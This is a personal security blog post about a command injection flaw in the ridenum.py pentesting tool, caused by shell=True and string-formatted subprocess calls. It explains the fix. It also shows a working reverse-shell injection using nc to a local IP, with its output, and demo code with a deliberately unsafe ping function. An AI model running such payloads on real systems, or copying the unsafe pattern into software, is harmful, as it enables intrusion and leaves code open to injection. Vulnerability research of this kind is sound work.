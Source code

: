 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Finding A Command Injection Vuln In A Pentesting Tool
_____________________________________________________________________

For some reason looking at other people's source code makes me get all warm and fuzzy inside. Kinda of like the description a Millenial hipster gives you. You know, when they tell you how they sat down and read a 'good book' with a cup of gluten-free, 100% non-GMO, Rainforest Alliance Certified Coffee. 

Reading source code from other individuals or groups can give you an insight into a lot of things like:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc.
  * What not to do when developing an application of any sort
  * What the drug or alcohol choice of the individual/group was during development ;)
  
## Some Of Python's Dangerous Functions & Methods
Python is a fantastic language. It's one of my favorites along side PowerShell, and C#. However, like all computer languages it doesn't come without it's flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html
 2. https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html
 3. https://security.openstack.org/guidelines/dg_use-subprocess-securely.html
 4. https://security.openstack.org/guidelines/dg_avoid-shell-true.html
 5. https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd
 6. https://docs.python.org/3.7/library/subprocess.html#popen-objects
 
The links above focus more on which a user is prompted to provide input via the `input` function in Python. Leveraging command injection via command line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as a vast majority of Linux machines will probably not have this tool installed. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the Domain SID, but that's not really important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool was using a Subprocess.Popen object or two to execute a shell command. This appears on lines 62 and 78. 

There is at least one argument that helped me obtain code execution, which was the argument for the rhost's IP address. It also looks like the `auth` argument is a possibility, but I've had no luck with using it. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (or optional username argument) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

### Two things can be taken in to consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no no, especially if you allow a user to supply input to your script or program. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a **string** variable that contains the entirety of a bash command, so everything is treated literally so to speak. Rather the string referenced by the `command` variable should have been broken down into a list of strings (`command = ["rpcclient", "-U", "\"{}\"".format(auth), "{}".format(ip) "-c", "\"lsaquery\""]`)


Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little tricker. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This doesn't work, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of crap after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject the bash command `id`.
```
./ridenum.py "1.1.1.1; nc 192.168.1.126 1234 -c bash;" 0 3 "0v3rride" "mysecretpassword"
```

Result:
```
listening on [any] 1234 ...
connect to [192.168.1.126] from (UNKNOWN) [192.168.1.111] 53370
ls
CHANGELOG.txt
LICENSE.txt
README.md
ridenum.py
```

Note how I placed the `nc` command with the `IP` argument. Why do I need two `;`? If I don't add another `;` to terminate, it looks like `ridenum.py` tries creating a list of users enumerated during RID cycling, which kills the reverse shell immediately. So placing the second `;` after the `nc` command will keep the reverse shell alive until you exit it.

Command/Shell injection via a Python script is really that simple. The fix to this is also pretty simple. Get rid of the `shell=True` or explicitly use `shell=False`. In addition breaking down the `command` variable down into a list of strings would fix the issue also as this wouldn't treat each subsquent string as an argument to the string in the first indice.


## You can play with the following source code below to get a better understanding.

```
import subprocess; 
 
def unsafe_ping(server):
  return subprocess.check_output('ping -c 1 %s' % server, shell=True);

print(unsafe_ping("8.8.8.8; id").decode("UTF-8"));


# def safe_ping(server):
#     return subprocess.check_output(['ping', '-c', '1', server], shell=False);

# print(safe_ping("8.8.8.8; id").decode("UTF-8"));


userinput = input("give some input: ");

print("Test 1: shell=true, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=True).decode("UTF-8"));

#Command injection doesn't seem to work on any of the below

print("Test 3: shell=true, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=True).decode("UTF-8"));

print("Test 2: shell=false, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=False).decode("UTF-8"));

print("Test 4: shell=false, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=False).decode("UTF-8"));
```
